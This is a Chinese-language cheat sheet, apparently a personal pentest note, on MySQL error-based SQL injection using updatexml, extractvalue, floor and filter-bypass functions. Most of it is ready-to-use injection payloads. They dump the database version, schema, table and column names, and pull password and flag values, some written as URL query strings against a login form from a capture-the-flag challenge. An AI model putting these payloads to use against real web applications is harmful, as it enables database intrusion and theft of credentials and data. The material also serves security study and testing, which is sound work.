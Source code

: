 利用报错回显敏感的sql注入
常利用函数：updatexml、floor、exp、extractvalue、join
* floor
* exp
* extractvalue
* updatexml
* name_const
* join
* geometrycollecion
* polygon
* multipoint
* multinestring
* multpolygon
* linesring

特殊函数
```
concat()用于连接多个字段。常配合报错函数。
group_concat()用于拼接某个字段的所有值，常用于输出。
```

拼接符
```
AND OR ^ || &&优先级比两边低，导致了会先执行错误语句报错。
在 SQL 中，`AND` 和 `OR` 操作符的优先级比算术运算符（如加法 `+`、乘法 `*`）的优先级要低。
这意味着在没有括号明确指定操作顺序的情况下，算术运算会先于逻辑运算执行。
```


## **updatexml**
原理：
updatexml（）一共有三个参数，第一个是xml内容、第二个参数是update的位置XPATH路径、第三个参数是更新后的内容；这里报错的主要原理是利用第二个参数，当其校验输入的内容是否符合XPATH路径格式的时候，不符合就报错，一般书写在路径位置为特殊符号0x7e，即可使得出现报错。同时第二个参数加入version（）或者database（）等等，因为不满足XPATH格式所以会输出错误，输出错误的时候将sql代码顺便（verson()，database()等）执行了。
```
payload:
//查询当前MySQL版本
'and updatexml(1,concat(0x7e,(select @@version)),1) or '1'='1
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '
//查询当前数据库名
'and updatexml(1,concat(0x7e,(select database())),1) or '1'='1
'and updatexml(1,concat(0x7e,(select database(),0x7e),1) or '1'='1
//查询表名（当前数据库下的）
'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) or '1'='1
//查询字段名(users表中的)
'and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1) or '1'='1
'and updatexml(1,concat(0x7e,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'adopt_admin' ),1),1) or '1'='1

基于insert/update下的报错
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '
基于delete下的报错
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1)

正则过滤
123"||(updatexml(1,(select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')),1))#
限制32位长度，倒序输出后面内容
123"||(updatexml(1,concat('~',reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1))#
```

## **extractvalue**
原理：与updatexml类似，第二个参数路径错误。
```
'and extractvalue(1,concat(0x7e,(select @@version))) #


过滤空格用括号()，过滤=用like

?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(database()))))%23
查出库名geek

?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))))%23
查出表名：H4rDsq1



?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))))%23
查出有password字段



?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(geek.H4rDsq1))))%23

extractvalue函数只能30字符，先做，后右。

?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))%23
```

^
## **floor**
floor()报错注入准确地说应该是floor,count,group by冲突报错是当这三个函数在特定情况一起使用产生的错误。
```
and (select count(*) floor(rand(14)*2) as a from users group by a);

获取数据库用户名
select * from test where id=1 and (select 1 from (select count(*), concat(user(),floor(rand(0)*2)) as x from information_schema.tables group by x)a) 

select * from test where id=1 and (select 1 from (select count(*), concat(database(),floor(rand(0)*2)) as x from information_schema.tables group by x)a) 

显示当前数据库名，登陆用户，数据库版本和数据路径 
SELECT (select 1 from (select count(*),concat(floor(rand(0)*2),(select concat(0x3a,database(),0x3a,user(),0x3a,version(),0x3a,@@datadir)))a from information_schema.tables group by a)b)

union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+concat(0x3a,database(),0x3a,user(),0x3a,version(),0x3a,@@datadir)))a+from+information_schema.tables+group+by+a)b 
1、获取所有的数据库名 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(SELECT distinct concat(0x7e,0x27,SCHEMA_NAME,0x27,0x7e)+FROM+information_schema.SCHEMATA+LIMIT+0,1))a+from information_schema.tables+group+by+a)b 
2、爆当前数据库中的表 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+table_name+from+information_schema.tables+where+table_schema=database()+limit+0,1))a+from+information_schema.tables+group+by+a)b 
3、爆字段 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+column_name+from+information_schema.columns+where+table_name=表名+limit+0,1))a+from+information_schema.tables+group+by+a)b 
4、爆内容 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+concat(0x3a,字段1,0x3a,字段2)+from+表名+limit+0,1))a+from+information_schema.tables+group+by+a)b
```
原理：
group进行分组，count进行统计，rand进行创建随机数并且是第十四次，然后乘以2，用floor进行向下取整，然后得到1010，进行分组排序的时候，系统会先生成一个虚拟表，然后是主键和值，通过查询floor(rand(14)\*2)得到结果是1，然后发现自己得虚拟表中没有，插入虚拟表中得主键，然后在插入得时候，表达式会再次执行一遍，实际插入到里面得是零，然后第二次，插入是1，发现表中没有，在插入得时候再次运行，实习插入主键得是0，**两个主键0**，因此报错。

必要条件：
数据库得数据必须得大于2才能执行



^
## **报错注入绕过**
```
1 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7e,(SELECT database()),0x7e,0x78))s), 8446744073709551610, 8446744073709551610)))



' and ST_Pointfromgeohash(current_user())--+
' || ST_Pointfromgeohash()--+
' || ST_Pointfromgeohash()#


order by GTID_SUBSET((version(),1))
```